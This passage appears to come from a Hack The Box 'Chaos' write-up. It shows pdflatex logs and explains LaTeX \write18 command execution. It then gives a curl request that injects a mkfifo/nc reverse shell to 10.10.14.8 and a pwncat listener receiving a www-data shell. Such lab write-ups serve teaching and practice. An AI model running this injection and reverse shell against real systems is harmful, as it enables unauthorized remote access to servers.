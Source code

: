 ``` http
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsgen.sty))
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsbsy.sty)
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsopn.sty))
(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/amsfonts.sty)
(/usr/share/texlive/texmf-dist/tex/latex/amscls/amsthm.sty)
(/usr/share/texlive/texmf-dist/tex/latex/lipsum/lipsum.sty)
(/usr/share/texlive/texmf-dist/tex/latex/sectsty/sectsty.sty)

Class scrartcl Warning: Usage of package `fancyhdr' together
(scrartcl)              with a KOMA-Script class is not recommended.
(scrartcl)              I'd suggest to use
(scrartcl)              package `scrlayer' or `scrlayer-scrpage', because
(scrartcl)              they support KOMA-Script classes.
(scrartcl)              With `fancyhdr' several features of class `scrartcl'
(scrartcl)              like options `headsepline', `footsepline' or command
(scrartcl)              `\MakeMarkcase' and the commands `\setkomafont' and
(scrartcl)              `\addtokomafont' for the page style elements need
(scrartcl)              explicite user intervention to work.
(scrartcl)              Nevertheless, using requested
(scrartcl)              package `fancyhdr' on input line 34.

(/usr/share/texlive/texmf-dist/tex/latex/fancyhdr/fancyhdr.sty)
No file 7acb2dc39b53be336fe410d1606d71bc.aux.

LaTeX Font Warning: Font shape `T1/cmss/m/sc' in size <10.95> not available
(Font)              Font shape `T1/cmr/m/sc' tried instead on input line 69.

(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsa.fd)
(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsb.fd) [1{/var/lib/texmf/fonts/map/pdftex/updmap/pdftex.map}] (./7acb2dc39b53be336fe410d1606d71bc.aux))
!pdfTeX error: /usr/bin/pdflatex (file ecss1095): Font ecss1095 at 600 not found
 ==> Fatal error occurred, no output PDF file produced!
```

In the logs, you can see old pfdTex version and `\write18` enabled.

`\write18` construct allows writing to the 18th file descriptor, which by default is the command line. So if LaTeX is passed somthing of the following format, it will run the command
```
\immediate\write18{[command]}
```

Get a shell
``` shell
┌──(kali㉿kali)-[~/HTB/Machine/Chaos]
└─$ curl -X POST -d "content=%5Cimmediate%5Cwrite18%7Brm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.8 443 >/tmp/f%7D&template=test3" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php
```
``` shell
┌──(kali㉿kali)-[~/HTB/Machine/Chaos]
└─$ pwncat-cs -l -p 443
/home/kali/.local/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[03:07:12] Welcome to pwncat 🐈!                                              __main__.py:164
[03:07:16] received connection from 10.10.10.120:60248                             bind.py:84
[03:07:20] 0.0.0.0:443: upgrading from /bin/dash to /bin/bash                  manager.py:957
[03:07:22] 10.10.10.120:60248: registered new host w/ db                       manager.py:957
(local) pwncat$
(remote) www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endaccordion %}
